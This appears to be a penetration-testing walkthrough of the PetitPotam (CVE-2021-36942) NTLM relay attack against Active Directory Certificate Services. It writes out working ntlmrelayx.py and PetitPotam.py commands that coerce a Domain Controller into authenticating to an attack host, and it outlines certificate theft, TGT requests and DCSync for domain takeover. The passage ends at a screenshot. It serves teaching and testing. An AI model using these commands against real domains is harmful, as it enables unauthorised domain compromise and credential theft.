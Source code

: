# PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) 
is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

Relaying NTLM Authentication: captures NTLM authentication messages from one source and forwards them to a target system, allowing the attacker to authenticate as the intercepted user.
Let's walk through the attack. First off, we need to start `ntlmrelayx.py` in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template. If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.
```shell
sudo ntlmrelayx.py -debug -smb2support --target http://Subdomain.Domain/certsrv/certfnsh.asp --adcs --template DomainController
```
![image](https://github.com/user-attachments/assets/4a5da9a5-ba54-4cf0-8f2e-5244a537ad57)

we can run the tool [PetitPotam.py](https://github.com/topotam/PetitPotam). We run this tool with the command
```shell
python3 PetitPotam.py <attack host IP> <Domain Controller IP>
```
to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.
From ntlmrelayx session
![image](https://github.com/user-attachments/assets/2750c8a0-7b15-4402-bb70-f88862f44684)



